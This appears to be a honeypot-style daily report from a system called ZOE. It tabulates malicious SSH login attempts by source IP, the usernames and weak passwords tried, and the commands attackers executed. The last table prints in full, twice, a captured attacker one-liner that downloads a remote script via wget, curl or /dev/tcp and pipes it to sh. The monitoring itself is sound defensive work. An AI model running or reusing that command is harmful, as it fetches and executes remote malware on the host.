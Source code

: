 # ZOE - The daily report for the malicious behavior

> daily report for the malicious user behavior

This is the daily report for the malicious user behavior. It is generated by the ZOE system.

## SSH

The following table shows the top 10 malicious SSH users that have been detected by the ZOE
system. The table is sorted by the number of attempts.

### Top 10 malicious users

| Client IP | Count    |
|-----------|----------|
| 47.108.150.205 | 4571 |
| 39.106.161.251 | 4566 |
| 8.218.7.109 | 4461 |
| 47.115.231.124 | 4397 |
| 8.210.21.103 | 4249 |
| 47.91.23.94 | 4142 |
| 8.219.0.220 | 2201 |
| 103.123.175.254 | 623 |
| 8.130.102.128 | 223 |
| 8.219.252.10 | 90 |

### Top 10 malicious try to login as

| Usernames | Count    |
|-----------|----------|
| root | 2337 |
| arma | 503 |
| nuucp | 502 |
| test3 | 502 |
| PPAP | 501 |
| test | 19 |
| ubuntu | 16 |
| admin | 14 |
| liysh | 14 |
| meghna | 11 |

### Top 10 malicious try to authenticate with

| Password | Count    |
|-----------|----------|
| 123456 | 846 |
| 111111 | 49 |
| 123 | 18 |
| 1234 | 17 |
| password | 16 |
| P@ssw0rd | 15 |
| michael | 14 |
| 12345678 | 14 |
| Aa123456 | 13 |
| 321 | 13 |

### Top malicious commands try to execute

| Client | Command |
|--------|---------|
| 87.120.113.231 | uname -a; echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"; SC=$(wget -O- http://94.156.177.109/sh \|\| curl http://94.156.177.109/sh); if [ $? -ne 0 ]; then exec 3<>"/dev/tcp/94.156.177.109/80"; echo -e "GET /sh HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3; (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 \| sh -s ssh; exec 3>&-; else echo "$SC" \| sh -s ssh; fi |
| 87.120.113.231 | uname -a; echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"; SC=$(wget -O- http://94.156.177.109/sh \|\| curl http://94.156.177.109/sh); if [ $? -ne 0 ]; then exec 3<>"/dev/tcp/94.156.177.109/80"; echo -e "GET /sh HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3; (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 \| sh -s ssh; exec 3>&-; else echo "$SC" \| sh -s ssh; fi |
